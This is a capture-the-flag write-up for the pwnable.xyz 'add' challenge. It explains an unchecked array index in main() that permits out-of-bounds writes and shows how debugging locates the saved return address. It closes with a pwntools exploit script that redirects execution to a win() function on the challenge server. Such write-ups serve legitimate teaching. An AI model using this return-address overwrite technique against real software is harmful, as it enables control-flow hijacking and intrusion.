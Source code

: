 # pwnable.xyz - add
Link to binary: https://pwnable.xyz/redisfiles/challenge_23.gz

Description: *We did some subtraction, now let's do some addition.*
 
## binary
Running the `file` command on the binary, reveals that it's a **64-bit ELF**.

![](images/file.png)

`checksec` shows that PIE protection is disabled for this binary.
![](images/checksec.png)

## ./challenge
Running the binary prints an `Input:` prompt which seems to expect numbers as input. Let's decompile with **IDA** and take a better look.

## IDA
### main()
![](images/main.png)

The program reads 3 long integers from the user in the format of "%ld %ld %ld" where the third value (**v6**) is used as an **index to the buffer** v7[12] and the first 2 values are added and assigned to v7[v6], as we can see in *line 19* of the decompiled code.

There is also a **win()** function available in the binary which prints the flag once called, so we must somehow manage to call it. The absence of **PIE protection** is a hint of how we should proceed here.

## vulnerability
The issue here lies in the code mentioned above `v7[v6] = v4 + v5` which allows for **arbitrary writes**, since there are **no checks** in place for the value of the v6 variable.

## attack plan
Since we can do arbitrary writes through v7, we only need to locate and **overwrite** the return address of `main()` with the address of `win()` and then just **return from main**.

## debugging
Let's disassemble main() first and locate the vulnerable code.
![](images/disas_main.png)

Here we control both **rax** and **rdx**. **rax** contains the third input value and **rdx** contains the sum of the first two input values that will be written at the address pointed by `rbp + rax * 8 - 0x60`. The address right after **rbp** should be a pointer to the return address, but let's make sure.

Continue the execution up to that instruction and check what the stack looks like:

![](images/breakpoint.png)

And to see the stack:

![](images/stack.png)

We can see that rbp contains the address **0x7fffffffd050** and the next address **0x7fffffffd058** indeed points to the return address of **main()** which is **__libc_start_call_main()**. So, all we have to do basically is to specify a value for rax such that `rbp + rax * 8 - 0x60` will be equal to `rbp + 8`, which is true when **rax** is equal to **13**. We figured **where** to write. As for **what**, **rdx** should contain the address of `win()`. Since rdx contains the sum of the first two input values we can just specify `win_address + 0`. win() will always be located at the same address since PIE is **disabled**.

## exploit
```python  
#!/usr/bin/python
from pwn import *

elf = context.binary = ELF("./challenge", checksec=False)
context.terminal = ['alacritty', '-e']
context.encoding = 'ascii'
context.gdbinit = '~/.config/gdb/.gdbinit'

gs = \
'''
b *main+116
'''

IP = "svc.pwnable.xyz"
PORT = 30002

def start(logging='notset'):
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    elif args.REMOTE:
        return remote(IP, PORT, level=logging)
    else:
        return process(elf.path, level=logging)

def pwn():
    io = start()
    win = 0x400822 # 4196386
    
    # Overwrite rip
    io.sendlineafter("Input:", "4196386 0 13")
    
    # Return from main
    io.sendlineafter("Input:", "\0")

    print(io.recvall())

if __name__ == "__main__":
    pwn()
```

Run on the server and we get the flag:
`FLAG{easy_00b_write}`